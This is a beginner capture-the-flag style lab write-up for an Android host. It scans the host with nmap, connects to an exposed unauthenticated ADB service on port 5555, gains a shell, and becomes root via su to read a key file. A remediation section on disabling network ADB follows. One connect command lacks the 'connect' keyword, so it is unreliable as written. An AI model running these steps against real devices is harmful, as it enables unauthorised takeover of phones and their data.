



# Android - Virtual Hacking Lab

| Info | Details |
|-----|--------|
| Platform | Virtual Hacking Lab |
| Difficulty | Beginner |
| Target IP | 10.11.1.48 |
| OS | Android |
| Vulnerability | Exposed Android Debug Bridge (ADB) |
| Tools Used | nmap, adb |

## Attack Path

1. Network enumeration
2. Service enumeration
3. ADB Service Identified
4. Privilege Escalation via su

## Environment Setup
First, create a working directory and files to organize enumeration results.

```bash
mkdir android
cd android
mkdir nmap gobuster exploit
touch users.txt creds.txt
echo 'Testing....1...2...3...' > test.txt
```

## Network Scanning
Identify the target IP and perform a full port scan.

```bash
ip='10.11.1.48'
## Regular Scan + Version
sudo nmap -Pn -n $ip -sC -sV -p- --open -oN nmap/nmap.log
```

Reminder
When reviewing scan results:
    1. Check all detected service versions
    2. Investigate every open port



## Port 5555 Android

The scan reveals that port 5555 is open.

Port 5555 commonly indicates the Android Debug Bridge (ADB) service.

ADB is a command-line tool used by developers to interact with Android devices for:

debugging applications

executing commands

transferring files

managing the device

If ADB is exposed over the network without authentication, attackers can gain direct shell access to the Android system.

First install the ADB client if it is not already installed.

```bash
sudo apt update && sudo apt install adb
```

After installation run the tool

```bash
adb 10.11.1.48:5555
adb devices
```



Successful connected to the service and shows connected devices

After confirming the connection, open a shell on the device.

```bash
adb shell
```

Successful connection provides a shell prompt on the Android system.

Next, determine the current privilege level.

```bash
whoami
id
``` 



## Linux Privilege Escalation
```bash
# after doing some research, lets try the easier way to get root
which su
su

# search for wheres root file
find / -iname "root" 2>/dev/null

# found root file
cd /data/root
cat key.txt
```


# Remediation

Disable ADB Over the Network

ADB should never be exposed to untrusted networks. By default, ADB is intended to be used only over USB connections for local debugging.

Disable ADB TCP mode:

```bash
setprop service.adb.tcp.port -1
stop adbd
start adbd
```
